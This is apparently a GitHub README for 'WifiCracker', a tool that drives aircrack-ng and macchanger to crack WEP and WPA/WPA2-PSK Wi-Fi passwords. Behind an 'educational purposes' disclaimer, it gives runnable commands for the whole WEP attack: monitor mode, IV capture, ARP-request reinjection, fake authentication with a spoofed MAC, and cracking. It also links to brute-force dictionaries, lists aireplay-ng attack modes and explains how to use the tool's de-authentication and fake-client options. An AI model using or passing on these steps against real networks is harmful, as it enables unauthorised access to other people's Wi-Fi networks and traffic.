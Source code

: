#<u>WifiCracker</u>
#<b>*********************************************************************</b>
#<b>Disclaimer: I don't take any responsabilities over the use of this application, it's just for educational purposes</b>
#<b>*********************************************************************</b>

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing. Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:

###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol

```airmon-ng start wlp2s0 or airmon-ng start wlan0```

###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)

```airodump-ng -w datos wlp2s0 or airodump-ng -w datos wlan0```

###where '-w datos' indicates the file name where data will be saved

###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data.

###For example:

```airodump-ng --ivs -w datos -c 11 wlp2s0 or airodump-ng --ivs -w datos -c 11 wlan0```

###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.

```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 or aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```

###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.

###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.

```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```

###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.

###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.

```aircrack-ng -0 datos-01.ivs```

###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows:

```aircrack-ng -0 -n 64 datos-01.ivs```

###where '-n 64' indicates for example the length of WEP password.

###When aircrack-ng ends, he show us the WEP password on screen.

###Here you have a table for 'aireplay-ng' options

| Attack  | Function |
| ------------- | ------------- |
| **0**  | De-authentication  |
| **1**  | Fake authentication  |
| **2**  | Interactive selection of packages to send  |
| **3**  | ARP-request reinjection  |
| **4**  | Chopchop attack |
| **5**  | Fragmentation attack |
| **6**  | Caffe-late attack |
| **7**  | Fragmentation Attack (customer oriented) |
| **8**  | WPA Migration Mode |
| **9**  | Injection test |

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have

![Little Mistake](imgs/error.png)

###Otherwise, routter password appears

![Working Good](imgs/funciona.png)

###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](imgs/Unassociated.png)

###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](imgs/Associated.png)
